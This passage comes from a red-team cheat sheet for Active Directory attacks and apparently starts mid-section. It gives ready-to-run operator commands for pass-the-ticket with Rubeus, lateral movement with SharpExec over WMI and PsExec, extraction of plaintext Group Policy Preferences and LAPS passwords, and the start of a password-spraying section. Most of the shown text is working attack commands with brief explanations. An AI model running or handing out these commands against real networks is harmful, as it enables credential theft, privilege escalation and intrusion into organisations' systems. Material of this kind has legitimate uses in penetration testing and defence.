 execute-assembly C:\Rubeus.exe asktgt /domain:lab.com /user:admin1 /rc4:<NTLM-hash> /ptt
# Run network commands as that user
ls \\jumpbox.lab.com\C$
jump winrm64 jumpbox.lab.com
```

[Move Kit](https://github.com/0xthirteen/MoveKit)
Aggressor script using execute-assembly, SharpMove and SharpRPD assemblies for doing lateral movement with various techniques

[SharpExec](https://github.com/anthemtotheego/SharpExec) - CSharp tooling lateral movement
```
# WMI lateral movement
execute-assembly SharpExec.exe -m=wmi -i=IPADDRESS -u=USER -p=PASSWORD -d=DOMAIN -e=C:\Windows\System32\cmd.exe -c="/c C:\path\to\payload"

# PSExec lateral movement
execute-assembly SharpExec.exe -m=psexec -i=IPADDRESS -u=USER -p=PASSWORD -d=DOMAIN -e=C:\Windows\System32\cmd.exe -c="/c C:\path\to\payload"
```

------------------------------------------------------------------------------------------
## Domain Privilege Escalation
### GPP Passwords
[Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) PowerSploit module
```
# Get-GPPPassword Searches a domain controller for groups.xml, scheduledtasks.xml, services.xml and datasources.xml and returns plaintext passwords
powershell-import --> Get-GPPPassword.ps1
powerpick Get-GPPPassword -Server ops-dc01.lab.com
```
[Net-GPPPassword](https://github.com/outflanknl/Net-GPPPassword) .NET port of get-gpppassword
```
execute-assembly C:\Net-GPPPassword.exe lab.com
```
[Get-GPPAutologon.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPAutologon.ps1) PowerSploit module
```
# Get-GPPAutologn searches the domain controller for registry.xml to find autologon information and returns the username and password
powershell-import --> Get-GPPAutologon.ps1
powerpick Get-GPPAutolgon
```

### LAPS Passwords
[SharpLaps](https://github.com/swisskyrepo/SharpLAPS) - Retrive LAPS password from AD<br>
The attribute ms-mcs-AdmPwd stores the clear-text LAPS password which is targeted here from LDAP<br>
``` execute-assembly SharpLAPS.exe /user:DOMAIN\USER /pass:PASSWORD /host:IPADDRESS```


### Password spraying
[DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray)
```
powershell-import --> DomainPasswordSpray.ps1